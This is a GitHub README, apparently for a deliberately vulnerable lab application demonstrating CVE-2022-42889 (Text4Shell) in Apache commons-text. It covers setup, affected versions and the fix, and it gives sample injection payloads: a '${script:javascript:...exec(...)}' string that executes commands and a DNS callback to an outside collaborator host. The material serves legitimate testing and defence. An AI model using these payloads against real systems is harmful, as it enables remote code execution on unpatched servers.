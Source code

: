 # text4shell-poc

Proof of Concept Appliction for testing CVE-2022-42889

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/securekomodo](https://github.com/securekomodo) |
| Url      | [https://github.com/securekomodo/text4shell-poc](https://github.com/securekomodo/text4shell-poc)                                               |
| Stars    | 9                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2022-42889 PoC Test Application
This is a vulnerable application developed as a Proof of Concept for the vulnerability [CVE-2022-42889](https://nvd.nist.gov/vuln/detail/CVE-2022-42889). 


# Maven Installation
In order to run this you will need:
* JDK 17 or above
* Maven

1. Clone the git repo
```
git clone https://github.com/securekomodo/text4shell-poc.git
cd text4shell-poc
```

2. Maven install to create the JAR

```
mvn clean install
```

This will create the `./target` folder and within that folder should be the JAR file `text4shell-poc-0.0.1-SNAPSHOT.jar`

3. Start the webserver

```
java -jar ./target/text4shell-poc-0.0.1-SNAPSHOT.jar
```

This will start a web server on your `localhost` listening on port `8080` by default

4. Browse to the webserver

Access the webserver at `http://localhost:8080/` and you should see the following output
```
Text4Shell POC Test -@securekomodo
Send payloads to /reflected?poc=yourpayload
OR Send payloads to /blind with payload as your userAgent
```

5. Exploit manually or perform a scan using [text4shell-scan](https://github.com/securekomodo/text4shell-scan)

Sample Exploit Payloads
```
${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/itworked')}
```
```
${dns:<burp collaborator host>)}
```

Recommended URL encoder for successful exploit demonstration: [https://www.urlencoder.org/](https://www.urlencoder.org/).

# Docker
Alternatively you can use Docker to be able to run this PoC:

1. Clone the git repo
```
git clone https://github.com/securekomodo/text4shell-poc.git
cd text4shell-poc
```

2. Docker build

```
docker build --tag=text4shell-poc .
```

3. Docker run

```
docker run -p 80:8080 text4shell-poc
```

4. Test the vulnerable app

```
http://localhost/
```

5. Attack can be performed by passing a string “${prefix:name}” like shown below:

```
${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}
```
```
${dns:<burp collaborator host>)}
```

Recommended URL encoder for successful exploit demonstration: [https://www.urlencoder.org/](https://www.urlencoder.org/).

Alternatively you can validate the effectiveness of scanning tools such as [text4shell-scan](https://github.com/securekomodo/text4shell-scan)


# Are You Vulnerable?
In order for your code to be vulnerable you need to:
* Be running a version of Apache `commons-text` from version `1.5.0` up to (and not including) `1.10.0`
* Using Interpolation for your StringSubstituion (see [https://commons.apache.org/proper/commons-text/apidocs/org/apache/commons/text/StringSubstitutor.html](https://commons.apache.org/proper/commons-text/apidocs/org/apache/commons/text/StringSubstitutor.html)) - note this is not super common


# The Fix
The fix for this is to update your instances of `commons-text` to versions `1.10.0` or later.


# Author
*Bryan Smith*
* Twitter: [https://twitter.com/securekomodo](https://twitter.com/securekomodo)



## Get the content

```
git clone https://github.com/securekomodo/text4shell-poc
cd text4shell-poc
```

{% embed url="https://github.com/securekomodo/text4shell-poc" %}

<figure><img src="https://avatars.githubusercontent.com/u/4809643?v=4" alt=""><figcaption><p>securekomodo</p></figcaption></figure>
